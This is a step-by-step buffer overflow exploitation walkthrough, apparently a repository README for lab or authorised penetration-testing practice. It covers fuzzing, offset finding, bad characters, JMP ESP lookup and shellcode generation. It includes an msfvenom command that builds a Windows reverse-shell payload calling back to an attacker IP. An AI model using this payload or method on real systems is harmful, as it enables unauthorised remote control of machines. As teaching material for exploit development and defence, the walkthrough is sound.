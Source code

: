 ## BOF Walkthru:

# Stack explanation:
ESP at the top of the buffer
Buffer Space
EBP at the bottom of the buffer
EIP (points to return address for a function)

Buffer space should contain characters you are using - 
BOF attack is when buffer overflows EBP, overwrites EIP (with malicious shellcode)

# Step 1: Spiking
throw a bunch of characters at avail commands to determine which one is vulnerable
use a tool called generic_send_tcp
generic_send_tcp <host> <port> <spike script> 0 0
by testing different spike scripts we can dtermine which command is vuln to bof
other way to test commands:
`nc <target-ip> <port number>`
`> output from vuln services`

# Step 2: Fuzzing
Use a python script, open a socket connection to vulnerable program, send more and more bytes in the buffer until the program crashes
after performing spike tests, we can use a python script to determine the buffer length 
at whcih the vulnerable program crashes (saved as 1.py)
crashes at ~5400 bytes or ~3000 bytes
we have automated this step with the script: fuzzTest.py
run using command:
`python fuzzTest.py --h <target-ip> --p <target-port> --cmd <command>`


# Step 3: Finding the Offset
now that we have the number of bytes program crashes at, we need to know at what offset we gain control of EIP
use metasploit pattern create to find the offset by creating a pattern:

`msf-pattern_create.rb -l <buffer-length as dtrmnd in last step>`

send pattern as buffer in our python script, crash vuln program
look at the value in eip register
use command, pass in value at eip in argument -q

`msf-pattern_offset.rb -l <buffer length> -q <value in EIP>`

This will give us the offset location
now we know at what byte length we can control eip

we have automated this step with the script offsetTest.py
use the command:
`python offsetTest.py --h <target-ip> --p <target-port> --cmd <command> --l <byte length at which overflow occurs, taken from previous step>`
then inspect immunity debugger and copy down the value in the eip register
then use msf-pattern_offset to determine the offset

# Step 4: Overwrite EIP
Test to make sure we can control EIP
Change the buffer to be of length X (offset from previous step)
followed by 4 letters (BBBB or CCCC to be easy to spot)
send the buffer to the program, crash it
check value of EIP
It should contain the bytes matching BBBB or CCCC
we have automated this using the script controlTest.py
run using the command:
`python controlTest.py --h <target-ip> --p <target-port> --cmd <command> --offset <offset determined from last step>`

# Step 5: Find Bad characters
Before we generate a payload, we want to know what characters will be corrupted if past to the program
Go to 
`https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/`
and copy the string of character bytes.
add them to the end of our buffer, send it an crash the program

In Immunity Debugger, we can use mona.py to find which badchars dont make it thru:
use this command to generate a bytearray of chars:
`!mona bytearray` 
And use this command to see which characters did not make it through
`!mona compare -f bytearray.bin -a 0x<address where array of chars begins in the stack> `
this should give us a pop up window with the badchars listed
Make sure to copy them somewhere
after finding bad characters, remove them from the byte array in our script and in immunity debugger
tell mona ot create a new bytearray without detected bad characters using command:
`!mona bytearray -cpb "\x00"`

# Step 6: Find right module
We want to find a module in the vulnerable program with no memory protection
in Immunity Debugger, use this command to get a table of modules
`!mona modules`
the module we want to target should have the value false for the columns ASLR and DES - even better if false in each column!
The next step depends on what we want our payload to do
In most situations, we want to direct the program to the beginning of our payload at the top of the stack
To do this we need to find address for the command JMP ESP
In Kali Linux, use the tool nasm_shell

`msf-nasm_shell`
`/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
`> jmp esp`
`>output: FFE4 (to save time ust refer here)`

Back in Immunity Debugger, use the following command to find the memory address(es) in the vulnerable module with the code jmp esp:

in mona.py, use cmd `!mona find -s '\xff\xe4' -m <vulnerable module>`

this gives us a memory address to overwrite - copy it
because of x86 architecture we may have to write bytes for rtn address in reverse order
now that we have full control of eip, we can give it this memory address to point to our shellcode

# Step 7: Generate Shellcode
use msfvenom to gen payload shellcode
examples:
`msfvenom -p windows/shell_reverse_tcp  -f python --var-name payload -b "\x00" LHOST=192.168.111.130 LPORT=1234 EXITFUNC=thread`

`msfvenom -p windows/exec -b "\x00\x01\x0a" -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread --smallest`


-p: type of payload
-b: bad characters to exclude
-f: programming language of payload 
--var-name: name of buffer holding payload
Make sure EXITFUNC=thread so that payload exits cleanly, doesnt crash target program

copy payload into our buffer
run python script to crash program, execute payload
if payload doesnt work right away, try adding some nops ("\x90") between pointer adress and payload

# Step 8: Profit!


* Disclaimer *
These scripts are only for use in authorized penetration testing or practise in a simulated environment.
